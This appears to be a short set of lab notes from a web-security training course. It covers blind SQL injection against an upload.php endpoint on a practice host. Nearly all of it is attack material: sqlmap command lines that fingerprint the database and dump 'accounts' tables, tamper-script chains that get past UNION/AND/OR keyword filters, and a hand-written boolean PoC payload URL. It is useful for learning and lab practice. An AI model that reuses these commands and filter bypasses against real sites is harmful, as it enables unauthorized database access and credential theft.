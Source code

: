 ```bash
# POCs
# same as #4 but with filter that applies to OR too 
# (%7C) == |

# SQLMAP
./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=5&payload=X' \
	-p payload --technique=B --dbms MySQL --no-cast --tamper=symboliclogical --threads=10 \
	--banner --flush-session

./sqlmap.py -u 'http://hacker.site/2nd/upload.php?lab=5&payload=X' \
	-p payload --technique=B --dbms MySQL --no-cast --tamper=symboliclogical --threads=10 \
	-D selfie4you05 -T accounts --dump 
```
# 6	- Boolean-based blind
```bash
Filters: /UNION/i, /AND/i, / OR/i
Query: $query = "SELECT views FROM attachments where filename='$entry';";

./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=6&payload=x" \
	-p payload --technique=B --dbms MySQL --suffix=';#' --tamper="symboliclogical, space2VT.py" \
	--no-cast --threads=10 -v 3 \
	--banner --flush-session 
	
./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=6&payload=x" \
	-p payload --technique=B --dbms MySQL --suffix=';#' \
	--tamper="symboliclogical, space2VT.py" \
	--no-cast --threads=5 -v 3 \
	-D selfie4you06 -T accounts \	
	--columns 
```
# 7	- Boolean-based blind
```bash
Filters: /UNION/i, /AND/i, / OR/i, /6163636f756e7473/, /selfie4you07.accounts/ (space to verical tab filter to bypass [space]OR filter)
Query: $query = "SELECT views FROM attachments where filename='$entry';";
# PoC
TRUE:	http://hacker.site/2nd/upload.php?lab=7&payload=01.jpg\'+%26%26+TRUE;%23

# SQLMAP
./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=7&payload=x" \
	-p payload --technique=B --dbms MySQL --suffix=';#' \
	--tamper="symboliclogical, space2VT.py, accounts.py" \
	--no-cast --threads=5 -v 3 \
	--banner --flush-session 
	
./sqlmap.py -u "http://hacker.site/2nd/upload.php?lab=7&payload=x" \
	-p payload --technique=B --dbms MySQL --suffix=';#' \
	--tamper="symboliclogical, space2VT.py, accounts.py" \
	--no-cast --threads=5 -v 3 \
	-D selfie4you07 -T accounts \
	--columns
```
```python
#tamper script accounts.py
#!/usr/bin/env python

"""
Copyright (c) 2006-2016 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

```